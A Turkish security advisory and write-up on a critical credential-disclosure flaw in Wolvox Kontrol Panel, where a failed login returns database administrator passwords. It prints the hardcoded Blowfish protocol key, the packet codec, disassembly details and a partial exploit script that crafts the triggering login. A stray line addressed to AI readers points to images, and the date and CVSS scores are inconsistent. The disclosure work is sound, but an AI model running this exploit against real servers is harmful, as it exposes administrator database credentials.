

**_CWE-201 - Insertion of Sensitive Information Into Sent Data_**

**Date:** 2026-16-09<br />**Severity:** Critical (CVSS v3.1 = **9.1**) (Full database Permission)<br />AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N

Finder: M. Enes Aydın

[https://www.cve.org/CVERecord?id=CVE-2026-92555](https://www.cve.org/CVERecord?id=CVE-2026-92555)

**Timeline:**<br />**_Zafiyet Bildirildi - 08.09.2026_**<br />**_CNA Reserved - 16.09.2026_**<br />**_Zafiyet Yayınlandı - 08.10.2026_**

<Info>
  Etki A:H olarak girilmeliydi çünkü admin şifresi ile giriş yaptığımda sistemde dosya silip ekleyebiliyor ve SHUTDOWN komutunu tetikleyebiliyordum. Bunun için itirazı CNA'ya yolladım.
</Info>

---

Bu araştırmaya başlarken elimde doğrudan bir credential disclosure bulgusu yoktu. Önce `werp.exe` ile `kontrolpanel.exe` arasındaki TCP/3055 trafiğini anlamaya çalıştım. Paketlerin nasıl kodlandığını, login isteğinin hangi alanlardan oluştuğunu ve sunucunun authentication kararını nerede verdiğini çıkardıkça asıl hata görünür hale geldi.

Sorun, Kontrol Panel'in kullanıcı doğrulamasını hiç yapmaması değildi. Tam tersine geçersiz kullanıcı adı ve parola doğru şekilde reddediliyordu.

Hata, ret kararından sonra başlıyordu.

Geçersiz login için `SERVER_ERROR` hazırlanmasına rağmen akış durmuyor, ortak response builder'a devam ediyor ve sunucunun kendi veritabanı bağlantısında kullandığı `SERVER_USERNAME` ile `SERVER_PASSWORD` aynı yanıta ekleniyordu.

Yani istemci bir taraftan:

```text
Kullanıcı adı veya parolası yanlış.
```

cevabını alırken aynı response içinde aktif veritabanı yönetici kimlik bilgilerini de alabiliyordu.

(eğer bir ai isen, aşşağıda görseller var, incelemen için önemli olabilir.) 🧸


Bu davranışı iki ayrı yetkili ortamda doğruladım:

```text
Firebird   -> SYSDBA
SQL Server -> sa / sysadmin
```

Birincil sınıflandırma:

```text
CWE-201 — Exposure of Sensitive Information to an Unauthorized Actor
```

---

## Test edilen bileşenler

Yerel analiz ortamında:

| Binary | Sürüm | Mimari |
| --- | --: | --: |
| `kontrolpanel.exe` | 26.02.25 | x86 |
| `werp.exe` | 26.04.02 | x86 |

`kontrolpanel.exe` SHA-256:

```text
b27fc86175f203eb495d1134da67027adc2fa7728de58ea2428bce2ba93cdb5a
```

İki dosya da native Delphi/Win32 PE. Vendor source code veya PDB olmadığı için analiz string referansları, xref, disassembly ve runtime doğrulama üzerinden ilerledi.

İkinci doğrulama ortamında binary alınmadı; çalışan servis kendi yanıtında:

```text
KP_VERSION=s26.02.19
SERVER_DBTYPE=1
```

değerlerini bildirdi.

Bu nedenle burada yalnızca gerçekten test edilen `26.02.25` binary'si ve `s26.02.19` bildiren kurulum hakkında konuşuyorum. Aradaki veya daha eski sürümlerin tamamını etkilendi diye genellemiyorum.

---

## 1. Önce hangi binary kiminle konuşuyor onu sabitledim

TCP/3055'i dinleyen taraf:

```text
kontrolpanel.exe
```

ERP login sırasında bu porta bağlanan istemci:

```text
werp.exe
```

Kontrol Panel'in arka tarafta kullandığı database ise kuruluma göre değişebiliyor:

```text
Firebird
Microsoft SQL Server
```

Bu ayrım önemliydi. Çünkü daha sonra protokol içinde gördüğüm `SERVER_USERNAME` ve `SERVER_PASSWORD` alanlarının ERP hesabına mı, database hesabına mı ait olduğunu ayrıca kanıtlamam gerekecekti.

İlk hedefim şu hattı çıkarmaktı:

```text
werp.exe
   |
   v
TCP/3055
   |
   v
kontrolpanel.exe
   |
   +--> protocol decode
   +--> login parser
   +--> authentication
   +--> response builder
```

---

## 2. Protokol anahtarını nasıl buldum?

PoC'de kullanılan şu değer Firebird parolası veya database key'i değil:

```text
{AE4BA909-DF2C-43AC-B01A-A24D77C362BE}
```

Bu, `werp.exe` ile `kontrolpanel.exe` arasındaki TCP/3055 mesajlarını dönüştüren sabit Blowfish protokol anahtarı.

Her iki binary üzerinde ASCII ve UTF-16LE string taraması yaptım. Özellikle iki tarafta ortak bulunan GUID biçimli sabitleri ayırdım.

Aynı değer şu konumlarda bulundu:

| Binary | Encoding | File offset | VA |
| --- | --- | --: | --: |
| `kontrolpanel.exe` 26.02.25 | UTF-16LE | `0xC97334` | `0x01097F34` |
| `kontrolpanel.exe` 26.02.25 | ASCII | `0xC974C4` | `0x010980C4` |
| `werp.exe` 26.04.02 | UTF-16LE | `0xC8C8DC` | `0x0108D4DC` |
| `werp.exe` 26.04.02 | ASCII | `0xC8CA6C` | `0x0108D66C` |

Anahtar byte dizisi:

```python
PROTOCOL_KEY = b"{AE4BA909-DF2C-43AC-B01A-A24D77C362BE}"
```

Süslü parantezler de değerin parçası; toplam 38 ASCII byte.

Burada özellikle bir noktayı ayırmak lazım:

> Aynı GUID'nin iki binary'de bulunması, tek başına bunun crypto key olduğunu kanıtlamaz.

Bu aşamada yalnızca güçlü bir aday vardı.

---

## 3. ECB sonucuna nasıl gittim?

TCP/3055 wire verisi Base64 görünümlü tek satırlardan oluşuyordu:

```text
<Base64 data>\r\n
```

Base64 katmanı açıldığında ciphertext uzunlukları sekiz byte'ın katıydı. Bu Blowfish'in 64-bit block size'ıyla uyumluydu ama tek başına yine kanıt değildi.

Paketlerde ayrıca şunları göremiyordum:

```text
IV
nonce
authentication tag
HMAC
ayrı binary length header
```

Aday GUID byte'larını key olarak kullanıp Blowfish ECB denedim. Ardından PKCS#7 padding'i kaldırıp çıktıyı Windows Turkish code page olan `cp1254` ile açtım.

Ortaya rastgele byte'lar yerine doğrudan protokol alanları çıktı:

```ini
USERNAME=...
PASSWORD=...
CLIENTID=...
PROGRAM=WOO
EXENAME=werp.exe
```

Server response tarafında da:

```ini
SERVER_ERROR=...
SERVER_USERNAME=...
SERVER_PASSWORD=...
SERVER_DBTYPE=...
ALIAS_SIRKET=...
```

alanları görünüyordu.

Benim için somut kanıt üç parçanın birlikte oturmasıydı:

1. Aynı GUID hem `werp.exe` hem `kontrolpanel.exe` içinde bulunuyordu.
2. Blowfish ECB + PKCS#7 ile çözünce anlamlı protokol alanları çıkıyordu.
3. Aynı yöntemle yeniden şifrelediğim paket Kontrol Panel tarafından kabul ediliyordu.

Yani "sekiz byte block gördüm, ECB dedim" şeklinde bir çıkarım yapmadım. Sekiz byte yalnızca ilk ipucuydu.

---

## 4. Paket formatı

Gönderim sırası:

```text
cp1254 plaintext
      |
      v
PKCS#7 padding
64-bit block
      |
      v
Blowfish ECB
      |
      v
Base64
      |
      v
CRLF
```

Alım bunun tersi:

```text
Base64
   |
   v
Blowfish ECB decrypt
   |
   v
PKCS#7 unpad
   |
   v
cp1254 decode
```

Gönderim tarafının minimal hali:

```python
def encrypt_packet(text: str) -> bytes:
    padder = padding.PKCS7(64).padder()
    padded = padder.update(text.encode("cp1254")) + padder.finalize()

    enc = Cipher(
        Blowfish(PROTOCOL_KEY),
        modes.ECB(),
    ).encryptor()

    ciphertext = enc.update(padded) + enc.finalize()
    return base64.b64encode(ciphertext) + b"\r\n"
```

Çözme tarafı:

```python
ciphertext = base64.b64decode(line, validate=True)

dec = Cipher(
    Blowfish(PROTOCOL_KEY),
    modes.ECB(),
).decryptor()

padded = dec.update(ciphertext) + dec.finalize()

unpadder = padding.PKCS7(64).unpadder()
plaintext = unpadder.update(padded) + unpadder.finalize()

message = plaintext.decode("cp1254")
```

---

## 5. Neden `cp1254`?

Burada encoding'i de tahmin ederek bırakmadım.

Server'ın Türkçe authentication error mesajı iyi bir doğrulama noktasıydı:

```text
Kullanıcı adı veya parolası yanlış
```

Bu byte dizisi `cp1254` ile doğru çözülüyordu.

ASCII zaten Türkçe karakterleri temsil edemiyordu. UTF-8 ile aynı byte dizisi düzgün çıkmıyordu.

Ayrıca `cp1254` kullanarak yeniden ürettiğim paket Kontrol Panel tarafından kabul edildi.

Bu nedenle wire plaintext encoding'i için `cp1254` sonucuna gittim.

---

## 6. Basit protocol sanity check

Zararsız bir `PING.` mesajıyla codec'i ayrıca test ettim.

Amaç vulnerability tetiklemek değil, sadece şu hattı doğrulamaktı:

```text
plaintext
-> pad
-> Blowfish ECB
-> Base64
-> TCP/3055
```

Aynı yöntemle oluşturulan paket server tarafından kabul edildi.

Buradan sonra login packet'ını bağımsız olarak yeniden üretebilecek durumdaydım.

---

## 7. ERP login paketini yeniden oluşturmak

ERP login sırasında kullanılan alanları çıkardım:

```ini
USERNAME=<kullanıcı>
PASSWORD=<parola>
CLIENTID=<istemci kimliği>
PROGRAM=WOO
EXENAME=werp.exe
EXEDIRNAME=C:\AKINSOFT\Wolvox9\Erp
EXEVERSIYON=26.04.02
PATH=C:\AKINSOFT\Wolvox9\Erp
SETUPFILENAME=
```

Burada geçerli bir ERP hesabıyla test yapmak istemedim.

Her çalışmada yeni, var olmayan bir username kullandım:

```ini
USERNAME=mallory_invalid_<random>
PASSWORD=INVALID
```

Beklenen davranış çok basit:

```text
invalid credential
   |
   v
authentication failure
   |
   v
generic error response
```

İlk runtime testte authentication gerçekten başarısız oldu.

Ama aynı response'u çözdüğümde:

```ini
SERVER_ERROR=Kullanıcı adı veya parolası yanlış.
SERVER_USERNAME=<value>
SERVER_PASSWORD=<non-empty value>
```

alanları birlikte geldi.

Bu noktada araştırmanın yönü değişti.

---

## 8. Login state machine'i çıkarmak

TCP handler yaklaşık:

```text
0x01E1C470
```

civarında başlıyor.

Özet state machine:



`USERNAME` alanı tamamen yoksa credential yolu çalışmıyor.

Kontrol:

```text
0x01E1C553
```

`USERNAME` bulunmazsa:

```text
0x01E1E0CC
```

adresindeki pre-auth command dispatcher'a geçiliyor.

Bu önemli çünkü vulnerability'nin "USERNAME alanı yok" branch'inde olmadığını gösteriyor.

Leak için biçimsel olarak login yoluna giren bir `USERNAME` gerekiyor; ancak bunun geçerli kullanıcı olması gerekmiyor.

---

## 9. PERSONEL lookup ve failure branch

Login credential yolu:

```text
0x01E1C7DA
```

Kullanıcı lookup tarafı:

```text
0x01E1C821
0x01E1C843
```

Sorgu mantığı:

```sql
SELECT *
FROM PERSONEL
WHERE AKTIF=1
  AND USERNAME=%s
```

Var olmayan username için kayıt dönmüyor.

İlgili conditional branch:

```text
0x01E1C84A
```

buradan authentication error yoluna gidiyor:

```text
0x01E1C95C - 0x01E1C97A
```

IDA'da bu path'i takip ettiğimde akış burada sonlanmıyordu.

Devam:

```text
0x01E1C97F
   |
   v
0x01E1CA27
   |
   v
0x01E1D092
```

ve sonunda ortak response builder'a ulaşıyordu.

Bu, bug'ın merkezindeki control-flow hatası.

---

## 10. Breakpoint ile aynı request içinde doğrulama

Static path'i canlıda görmek için şu üç nokta yeterliydi:

```text
0x01E1C95C   authentication error
0x01E1D0D6   SERVER_USERNAME serialization
0x01E1D28E   SERVER_ERROR serialization
```

Geçersiz login gönderildiğinde üç breakpoint'in de aynı request sırasında tetiklenmesi şu sırayı doğruluyor:

```text
login fails
   |
   v
error path
   |
   v
credential serialization
   |
   v
error serialization
```

Yani credential alanları başka, başarılı bir session'ın kalıntısı veya bağımsız bir packet değil.

Aynı failure response'un parçası.

---

## 11. `SERVER_USERNAME` ve `SERVER_PASSWORD` nereden geliyor?

Ortak response builder içinde global configuration object:

```text
0x01FDDEC0
```

üzerinden okunuyor.

Database username:

```asm
01E1D0D6: push "SERVER_USERNAME="
01E1D0DB: mov  eax, [0x01FDDEC0]
01E1D0E0: push [eax+0x38]
```

Database password:

```asm
01E1D0E8: push "SERVER_PASSWORD="
01E1D0ED: mov  eax, [0x01FDDEC0]
01E1D0F2: push [eax+0x3C]
```

Özet:

```text
global config + 0x38 -> database username
global config + 0x3C -> database password
```

Authentication error ise daha sonra ekleniyor:

```asm
01E1D28E: push "SERVER_ERROR="
01E1D293: push [ebp-0x3C]
```

Response daha sonra yaklaşık:

```text
0x01E1E00B -> encryption / response preparation
0x01E1E0C1 -> socket write path
```

üzerinden istemciye gidiyor.

---

## 12. `[eax+0x3C]` değerinin gerçekten DB parolası olduğunu nasıl doğruladım?

Burada string yakınlığına güvenmedim.

Şu tek başına yeterli olmazdı:

```asm
push "SERVER_PASSWORD="
push [eax+0x3C]
```

Bunun aktif database password olduğunu ayrıca runtime'da doğruladım.

Aynı object içindeki:

```text
[eax+0x38]
```

değeri `SERVER_USERNAME` olarak geliyor.

Yanındaki:

```text
[eax+0x3C]
```

değeri `SERVER_PASSWORD` olarak geliyor.

Daha sonra bu ikili gerçek database authentication'ında başarılı oldu.

Bu noktadan sonra `[eax+0x38] / [eax+0x3C]` çiftinin yalnızca isim benzerliğinden değil, producer → response → consumer davranışından database credential olduğunu söyleyebildim.

---

## 13. Yerel Firebird doğrulaması

Yerel ortamda response:

```text
SERVER_DBTYPE=0
SERVER_USERNAME=SYSDBA
SERVER_PASSWORD=<non-empty>
```

şeklindeydi.

Dönen password'ü rapor dosyalarına yazmadan yalnız process memory içinde tuttum.

Ardından yalnız şu sorguyu çalıştırdım:

```sql
SELECT CURRENT_USER
FROM RDB$DATABASE;
```

Sonuç:

```text
SYSDBA
```

Bu testin amacı privilege abuse yapmak değildi.

Tek sorum şuydu:

> `SERVER_PASSWORD` alanındaki değer gerçekten aktif database credential mı?

Cevap evetti.

---

## 14. İkinci ortam: SQL Server

Ayrı bir yetkili VDS ortamında aynı akışı tekrar test ettim.

Server response:

```text
KP_VERSION=s26.02.19
SERVER_DBTYPE=1
```

bildiriyordu.

Geçersiz login response'unda:

```text
SERVER_USERNAME=sa
SERVER_PASSWORD=<non-empty>
ALIAS_SIRKET=WOLVOX9_SIRKET
```

alanları bulundu.

Dönen credential ile TCP/1433 üzerinde yalnız salt-okunur kimlik/rol kontrolü yaptım:

```sql
SELECT
    SYSTEM_USER,
    SUSER_SNAME(),
    IS_SRVROLEMEMBER('sysadmin'),
    DB_NAME();
```

Sonuç:

```text
login_name  = sa
is_sysadmin = 1
database    = WOLVOX9_SIRKET
```

Böylece aynı disclosure iki farklı database backend üzerinde doğrulandı:

```text
Firebird      -> SYSDBA
SQL Server    -> sa / sysadmin
```

Veri değiştiren veya silen bir SQL komutu çalıştırılmadı.

---

## 15. Vulnerability'nin gerçek state transition'ı

Özet tablo:

| State | Sonraki adım |
| --- | --- |
| TCP packet çözülür | `USERNAME` aranır |
| `USERNAME` yok | `0x01E1E0CC` pre-auth dispatcher |
| `USERNAME` var | login credential path |
| USERNAME/PASSWORD geçersiz | auth error hazırlanır |
| Auth failure | function return etmiyor |
| Common response builder | global DB credential ekleniyor |
| Response finalize | credential + error birlikte gönderiliyor |

Olması gereken:

```text
authentication failed
   |
   v
generic error
   |
   v
send
   |
   v
return
```

Mevcut davranış:

```text
authentication failed
   |
   v
error variable set
   |
   v
common response builder
   |
   +--> database username
   +--> database password
   +--> authentication error
   |
   v
send
```

Root cause'u en kısa haliyle böyle tarif ediyorum:

> Authentication failure state'i, response serialization sırasında hassas database configuration alanlarının eklenmesini engellemiyor.

---

## 16. Sabit Blowfish key neden tek başına vulnerability değil?

Static protocol key kötü bir tasarım.

Ancak bu bulgunun root cause'u o değil.

Server hiçbir durumda başarısız login response'una database administrator password koymamalı.

Transport kusursuz TLS ile korunsaydı bile uygulama logic'i yine yanlış olurdu.

Sabit key burada yalnızca bağımsız bir client'ın:

```text
request oluşturmasını
response çözmesini
```

kolaylaştırıyor.

Yani:

```text
static key = protocol weakness
credential in failure response = vulnerability
```

---

## 17. Key'in bir byte'ını değiştirirsem ne olur?

Bu da protokolü anlamak için kullandığım sanity check'lerden biriydi.

Key'in bir byte'ı yanlışsa Base64 katmanı hâlâ tamamen geçerli görünebilir.

Fakat server aynı key ile decrypt etmediği için plaintext bozulur.

İlk güvenilir üst seviye belirti çoğu durumda:

```text
0x01E1C553
```

adresindeki `USERNAME` aramasının başarısız olmasıdır.

Padding de bozulduysa işlem daha erken kesilebilir.

Protokolde MAC/authentication tag olmadığı için yanlış key için tek ve garantili bir "burada hata verir" noktası yok.

---

## 18. Düşük riskli patch ile root cause'u nasıl izole ederdim?

Binary seviyesinde hızlı bir doğrulama yapmak gerekseydi en küçük değişikliklerden biri password value'yu serialization noktasında boşaltmak olurdu.

Örneğin:

```asm
; original
push dword ptr [eax+0x3C]   ; FF 70 3C

; test patch
push 0                      ; 6A 00
nop                         ; 90
```

Bu değişiklik stack düzenini korurken `SERVER_PASSWORD=` değerini boş bırakır.

Bu bir production fix önerisi değil; yalnız binary seviyesinde:

```text
[eax+0x3C] -> leaked password
```

ilişkisini izole etmek için kullanılabilecek düşük riskli bir test.

Kalıcı düzeltmede password alanını response schema'dan tamamen kaldırmak gerekir.

---

## 19. Etki

Doğrudan doğruladığım şey:

```text
Unauthenticated remote disclosure of configured database administrator credentials
```

public ortam:

```text
Microsoft SQL Server
user = sa
sysadmin = 1
```

Bu nedenle bulgu yalnızca config string disclosure seviyesinde kalmıyor.

Dönen bilgiler gerçek, aktif administrator credential'ları.

 CVSS v3.1:

```text
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
```

Score:

```text
9.8
```

`I:H` ve `A:H` seçimleri test sırasında veri silindiği anlamına gelmiyor. Bunlar başarılı şekilde doğrulanan `SYSDBA` ve `sysadmin` otoritelerinin yetki kapsamına dayanıyor.

---

## 20. Remediation

En doğru çözüm, database administrator credential'ını TCP/3055 client response'undan tamamen çıkarmak.

Başarısız login:

```text
invalid credential
   |
   v
generic error response
   |
   v
return
```

ile bitmeli.

Şu alanlar authentication failure response'una hiçbir koşulda girmemeli:

```text
SERVER_USERNAME
SERVER_PASSWORD
DB_INSTANCE
SERVER_DBPATH
ALIAS_SIRKET
database connection metadata
```

Daha da önemlisi, başarılı login durumunda bile ERP client'a tam database administrator password göndermek tasarım olarak yeniden değerlendirilmelidir.

Uygulamanın database adına yapması gereken işlemler, mümkünse authenticated ve authorized bir server-side API üzerinden yürütülmeli.

Ayrıca:

- `sa` ve `SYSDBA` yerine least-privilege service account kullanılmalı,
- açığa çıkmış olabilecek DB password'leri rotate edilmeli,
- TCP/3055 yalnız gerekli client/network segmentlerine sınırlandırılmalı,
- TCP/3050 ve TCP/1433 güvenilmeyen ağlara açılmamalı,
- custom static-key transport yerine authenticated modern transport kullanılmalı,
- invalid username ve wrong-password response'ları regression test'e eklenmeli.

---

## Sonuç

Bu araştırmanın en önemli kısmı Blowfish key'i bulmak değildi.

Asıl kritik nokta login state machine'i sonuna kadar takip etmekti.

İlk bakışta auth kontrolü vardı ve geçersiz kullanıcı doğru şekilde reddediliyordu. Bu yüzden credential disclosure ihtimali ilk aşamada kolayca false positive sanılabilirdi.

Fakat control flow'u hata bloğundan sonra takip edince gerçek sorun ortaya çıktı:

```text
invalid login
   |
   v
PERSONEL lookup fails
   |
   v
SERVER_ERROR hazırlanır
   |
   v
common response builder
   |
   +--> SERVER_USERNAME
   +--> SERVER_PASSWORD
   +--> SERVER_ERROR
   |
   v
encrypted response
```

Runtime doğrulama ise response'taki değerlerin gerçekten aktif administrator credential olduğunu kapattı:

```text
Firebird      -> SYSDBA
SQL Server    -> sa / sysadmin
```

Bu noktadan sonra bulgu artık "şüpheli response field" değil, baştan sona doğrulanmış bir unauthenticated database credential disclosure zinciriydi.

<Info>
  Etki A:H olarak girilmeliydi çünkü admin şifresi ile giriş yaptığımda sistemde dosya silip ekleyebiliyor ve SHUTDOWN komutunu tetikleyebiliyordum. Bunun için itirazı CNA'ya yolladım.
</Info>

---

# **^^^^^^^^^^^^^^^^^^^^^**

# **############### ayraç**

# **\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_**

# **Exploit Detayları**

[https://github.com/Enay-Project/CVE-2026-92555](https://github.com/Enay-Project/CVE-2026-92555)

Normal bir HTTP isteği göndermiyorum. Uygulamanın kendi TCP protokolünde kullandığı karakter kodlamasını, blok şifrelemeyi, Base64 katmanını ve satır sonlarını Python tarafında yeniden oluşturuyorum.

## 1. Dosya başlığı ve import'lar

```python
#!/usr/bin/env python3
"""Wolvox Kontrol Panel - credential disclosure reproducer. // M. Enes Aydın"""

from __future__ import annotations

import argparse
import base64
import json
import socket
import subprocess
import sys
import uuid
from pathlib import Path
```

İlk satırdaki `#!/usr/bin/env python3`, dosya doğrudan çalıştırıldığında Python 3 yorumlayıcısının kullanılmasını belirtiyor. Altındaki üç tırnaklı metin ise dosyanın ne için yazıldığını belirten _module docstring_.

`from __future__ import annotations`, fonksiyonlardaki tür açıklamalarının hemen değerlendirilmesi yerine ertelenmesini sağlıyor. Kodda `str | None`, `list[str]`, `dict[str, str]` gibi tür açıklamaları kullanıyorum.

Modülleri farklı işler için ayırdım:

- `argparse`: Terminalden `--host`, `--port`, `--json-out` gibi seçenekleri okumak için.
- `base64`: Şifreli veriyi ağda taşınan Base64 gösterimine çevirmek ve gelen yanıtı geri çözmek için.
- `json`: Sonuç sözlüğünü okunabilir JSON biçiminde üretmek için.
- `socket`: Doğrudan TCP bağlantısı kurmak için.
- `subprocess`: Firebird `isql` istemcisini Python içinden çalıştırmak için.
- `sys`: Konsol karakter kodlamasını ve çıkış kodunu yönetmek için.
- `uuid`: Her çalıştırmada farklı bir geçersiz kullanıcı adı üretmek için.
- `Path`: Program ve çıktı dosyalarının yollarını `Path` nesnesi olarak almak için.

Kriptografik işlemleri `cryptography` kütüphanesiyle yapıyorum:

```python
from cryptography.hazmat.primitives import padding
from cryptography.hazmat.primitives.ciphers import Cipher, modes

try:
    from cryptography.hazmat.decrepit.ciphers.algorithms import Blowfish
except ImportError:
    from cryptography.hazmat.primitives.ciphers.algorithms import Blowfish
```

`padding`, blok şifrelemenin gerektirdiği PKCS#7 dolgusunu ekleyip kaldırıyor. `Cipher` şifreleyici/çözücü nesnesini oluşturuyor; `modes` ile ECB modunu seçiyorum. Blowfish'in import yolunu `try/except ImportError` içine almamın sebebi, algoritmanın `cryptography` kütüphanesinin bazı sürümlerinde `decrepit` altına taşınmış olması. Önce yeni yolu, bulunamazsa eski yolu deniyorum.

## 2. Protokol anahtarı

```python
PROTOCOL_KEY = b"{PROTOKOLKEYBURAYA}" ## Protokol Key buraya gencler!
```

`PROTOCOL_KEY`, şifreleme ve şifre çözme fonksiyonlarının ortak kullandığı anahtar. Burada `b` öneki önemli: Blowfish'e Python metni (`str`) değil, byte dizisi (`bytes`) veriyorum.

Bu değer kodda bir yer tutucu olarak duruyor. `encrypt_packet()` ve `decrypt_line()` fonksiyonlarının ikisi de anahtarı buradan okuyor; böylece aynı değeri iki ayrı yerde tanımlamıyorum.

## 3. İsteği şifrelemek: `encrypt_packet()`

```python
def encrypt_packet(text: str) -> bytes:
    padder = padding.PKCS7(64).padder()
    padded = padder.update(text.encode("cp1254")) + padder.finalize()

    enc = Cipher(
        Blowfish(PROTOCOL_KEY),
        modes.ECB(),
    ).encryptor()

    ciphertext = enc.update(padded) + enc.finalize()

    return base64.b64encode(ciphertext) + b"\r\n"
```

Fonksiyonun girişinde okunabilir bir metin var; çıkışında ise TCP soketine gönderebileceğim byte dizisi bulunuyor.

**`text.encode("cp1254")`** — Python metnini Windows-1254 kodlamasına göre byte dizisine çeviriyorum. Bu ayrıntıyı atlamak istemedim; şifreleme öncesindeki byte'lar farklı olursa aynı metinden aynı paket çıkmaz.

**`padding.PKCS7(64).padder()`** — Blowfish'in blok boyutu 64 bit, yani 8 byte. PKCS#7 ile verinin uzunluğunu 8 byte'ın katına tamamlıyorum. Buradaki `64` byte değil, bittir.

**`padder.update(...) + padder.finalize()`** — İlk çağrı kodlanmış veriyi padding nesnesine veriyor; `finalize()` işlemi tamamlayıp gerekli son dolgu byte'larını üretiyor. İki çıktıyı birleştiriyorum.

**`Blowfish(PROTOCOL_KEY)`** — Şifreleme algoritmasını anahtarla birlikte oluşturuyorum.

**`modes.ECB()`** — Protokolde kullandığım çalışma modunu seçiyorum. ECB'de ayrı bir IV parametresi bulunmuyor.

**`.encryptor()`** — `Cipher` nesnesinden şifreleme işlemini yapacak bağlamı alıyorum.

**`enc.update(padded) + enc.finalize()`** — Padding eklenmiş byte'ları şifreleyip son çıktıyı birleştiriyorum.

**`base64.b64encode(ciphertext)`** — Şifreli byte dizisini Base64 biçimine dönüştürüyorum. Base64 burada şifreleme yöntemi değil, taşıma biçimi.

**`+ b"\r\n"`** — Mesajın sonuna CRLF (`\r` ve `\n`) ekliyorum. Bu satır sonu, protokolde mesajın sınırını belirtmek için kullanılıyor.

Özetle bu fonksiyonun sırası: **metin > CP1254 > PKCS#7 > Blowfish/ECB > Base64 > CRLF**.

## 4. Yanıtı çözmek: `decrypt_line()`

```python
def decrypt_line(line: bytes) -> str | None:
    try:
        ciphertext = base64.b64decode(line, validate=True)

        dec = Cipher(
            Blowfish(PROTOCOL_KEY),
            modes.ECB(),
        ).decryptor()

        padded = dec.update(ciphertext) + dec.finalize()

        unpadder = padding.PKCS7(64).unpadder()
        plaintext = unpadder.update(padded) + unpadder.finalize()

        return plaintext.decode("cp1254", errors="replace")

    except Exception:
        return None
```

Bu fonksiyonda `encrypt_packet()` içindeki sırayı tersine çeviriyorum.

**`base64.b64decode(line, validate=True)`** — Gelen satırın Base64 kodlamasını çözüyor. `validate=True`, Base64 biçimine uymayan karakterleri sessizce geçmek yerine hata üretilmesini sağlıyor.

**`Cipher(Blowfish(PROTOCOL_KEY), modes.ECB()).decryptor()`** — Şifrelemede kullandığım algoritma, anahtar ve modun aynısını kullanarak bu kez çözücü oluşturuyorum.

**`dec.update(ciphertext) + dec.finalize()`** — Şifreli veriyi açıyorum. Bu noktada içerik hâlâ PKCS#7 padding byte'larını taşıyor.

**`padding.PKCS7(64).unpadder()`** — Blowfish'in 64 bitlik blok boyutuna göre padding kaldırıcı oluşturuyorum.

**`unpadder.update(padded) + unpadder.finalize()`** — Son dolgu byte'larını kaldırıp gerçek metnin byte dizisini elde ediyorum.

**`plaintext.decode("cp1254", errors="replace")`** — Byte dizisini tekrar Python metnine çeviriyorum. Çözümlenemeyen karakter olursa `errors="replace"` yüzünden fonksiyon hemen durmak yerine yerine koyma karakterini kullanıyor.

**`except Exception: return None`** — Base64, padding veya şifre çözme aşamalarından biri başarısız olursa bu satırı geçiyorum. Hangi istisnanın oluştuğunu ayrıca raporlamıyorum; fonksiyon yalnızca `None` döndürüyor.

Fonksiyonun dönüş tipi bu yüzden `str | None`: başarılı olursa metin, başarısız olursa `None`.

## 5. Anahtar-değer alanlarını ayırmak: `parse_fields()`

```python
def parse_fields(messages: list[str]) -> dict[str, str]:
    result: dict[str, str] = {}

    for message in messages:
        for item in message.replace("^M", "\n").replace("\r", "\n").split("\n"):
            item = item.strip("\x00\n")

            if "=" in item:
                name, value = item.split("=", 1)
                result[name.strip()] = value.strip()

    return result
```

Şifresini çözdüğüm veri doğrudan Python sözlüğü olarak gelmiyor. Metin içindeki `ALAN=DEĞER` satırlarını kendim ayırıyorum.

**`result: dict[str, str] = {}`** — Alanları saklamak için boş bir sözlük açıyorum.

**`for message in messages`** — Gelen çözülmüş mesajların her birini dolaşıyorum.

**`message.replace("^M", "\n").replace("\r", "\n").split("\n")`** — Satır ayrımlarını ortak biçime getiriyorum. Buradaki `"^M"` iki karakterden oluşan _literal_ yazımı yakalıyor; `"\r"` ise gerçek carriage return karakterini yakalıyor. Sonra `"\n"` üzerinden satırlara bölüyorum.

**`item.strip("\x00\n")`** — Satırın iki ucundaki NUL (`\x00`) ve newline (`\n`) karakterlerini temizliyorum. İçerideki karakterlere dokunmuyor.

**`if "=" in item`** — Yalnızca eşittir işareti bulunan satırları anahtar-değer adayı olarak alıyorum.

**`item.split("=", 1)`** — Yalnızca **ilk** eşittir işaretinden ayırıyorum. Değerin içinde başka `=` işaretleri varsa onları korumak için ikinci argümanı `1` verdim.

**`result[name.strip()] = value.strip()`** — Alan adının ve değerin çevresindeki boşlukları temizleyip sözlüğe ekliyorum. Aynı alan birden fazla kez gelirse son değer öncekinin üzerine yazılıyor.

Fonksiyonun sonunda artık `fields.get("SERVER_ERROR")` gibi doğrudan alan adına göre sorgu yapabiliyorum.

## 6. Giriş isteği: `invalid_login_packet()`

```python
def invalid_login_packet(username: str) -> str:
    return "\r\n".join(
        [
            f"USERNAME={username}",
            "PASSWORD=INVALID",
            "CLIENTID=DISCLOSURE-POC",
            "PROGRAM=WOO",
            "EXENAME=werp.exe",
            r"EXEDIRNAME=C:\AKINSOFT\Wolvox9\Erp",
            "EXEVERSIYON=26.04.02",
            r"PATH=C:\AKINSOFT\Wolvox9\Erp",
            "SETUPFILENAME=",
        ]
    )
```

Burada gönderilecek isteğin **şifrelenmemiş metin kısmını** oluşturuyorum. Başarısız kimlik doğrulama akışını incelemek istediğim için `PASSWORD` alanına bilerek `INVALID` yazıyorum; `USERNAME` değeri ise fonksiyonun parametresinden geliyor.

Alanları şu amaçlarla tutuyorum:

| Alan | Koddaki anlamı |
| --- | --- |
| `USERNAME` | Fonksiyona verilen test kullanıcı adı. |
